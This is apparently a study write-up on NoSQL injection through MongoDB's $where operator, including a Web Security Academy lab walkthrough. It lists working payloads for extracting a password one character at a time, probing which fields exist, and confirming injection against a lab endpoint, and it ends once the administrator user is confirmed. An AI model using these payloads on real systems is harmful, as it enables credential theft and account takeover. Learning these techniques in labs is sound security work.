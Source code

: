 In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's $where operator and mapReduce() function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.

Take the following query, where we can control the input value of 'admin':

```json
{"$where":"this.username == 'admin'"}
```

The following payloads may allow you to extract the admin's password one character at a time and confirm whether the password contains digits:

```json
admin' && this.password[0] == 'a' || 'a'=='b
admin' && this.password.match(/\d/) || 'a'=='b
```

Identify field names and check if the password field exists:

```json
username=admin'+%26%26+this.password!%3d'
```

The decoded version:

```json
username=admin' && this.password!='
```

If you know that a certain field exists we can use test cases to identify how application responds to valid/invalid requests:

```json
admin' && this.username!='
admin' && this.foo!='
```
# Exploiting NoSQL Injection to Extract Data

Extract the password for the administrator user, then log in to their account. We are given credentials to log into the application - wiener:peter. The following endpoint is vulnerable to NoSQL Injection:

- https://0a06006303e0b0d18172f72800dc0065.web-security-academy.net/user/lookup?user=wiener

The following payloads where used to identify the vulnerability:

```json
user=wiener'%26%26+0+%26%26+'x
user=wiener'%26%26+1+%26%26+'x
user=wiener'&& 1 && 'x
```

The following payload returned the first user details in the database collection which was for the username "administrator". This confirms that there is a user with that name.

```json
user=wiener'||'1'%3d%3d'1
```
